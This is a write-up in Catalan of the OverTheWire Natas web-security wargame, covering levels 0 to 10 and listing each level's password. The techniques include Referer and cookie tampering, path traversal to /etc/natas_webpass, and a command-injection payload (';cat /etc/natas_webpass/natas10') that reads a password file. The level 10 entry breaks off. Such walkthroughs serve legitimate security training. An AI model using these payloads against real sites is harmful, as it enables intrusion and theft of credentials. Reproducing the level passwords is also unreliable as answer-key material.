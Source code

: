 # LEVEL 0

Inspeccionem l'element i podem veure un comentari en el div "content".

![Level0](img/level0.png)
```
g9D9cREhslqBKtcA2uocGHPfMZVzeFK6
```

# LEVEL 1

Al estar bloquejat el click dret fiquem 
view-source:http://natas1.natas.labs.overthewire.org/
![Level1](img/level1.png)

```
h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7
```

# LEVEL 2

Inspeccionem i veiem que carrega una imatge que té la ruta de /files. Accedim i veiem que en aquest directori hi ha un fitxer users.txt
![Level2](img/level2.png)

```
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

# LEVEL 3

En el codi no trobem res, mirem el robots.txt i viem que surt /s3cr3t/ entrem en aquest directori i trobem el fitxer users.txt amb la password.
![Level3](img/level3.png)

```
tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm
```

# LEVEL 4

Modifiquem la petició amb el BurpSuite ja que ens diu que només accepta peticions del natas5, modifiquem el referer per http://natas5.natas.labs.overthewire.org/

```
Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD
```


# LEVEL 5

Mirem la petició amb el BurpSuite, veiem que té un parametre que té el valor 0, li fiquem el valor 1 i ja podem entrar.
```
Cookie: loggedin=0
```
```
fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR
```

# LEVEL 6

Si cliquem a view source, podem veure un tros de codi php on viem un include includes/secret.inc, aqui dins hi ha una variable amb la contrasenya que hem de ficar al input per poder obtenir la contrasenya del Natas7.
Fallo: secret de forma gloabal

```
jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr
```

# LEVEL 7

index.php?page= obre la pàgina, si mirem el codi veiem que el password esta /etc/natas_webpass/natas8
Fallo: path traversal

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8


```
a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB
```
# LEVEL 8
```
<?php
function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

function decode($secret){
	return base64_decode(strrev(hex2bin($secret)));
}

echo (decode("3d3d516343746d4d6d6c315669563362"));
```
```
Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd
```
# LEVEL 9
```
;cat /etc/natas_webpass/natas10

```
```
D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
```

# LEVEL 10
```
a /etc/natas_webpass/natas10
```
natas









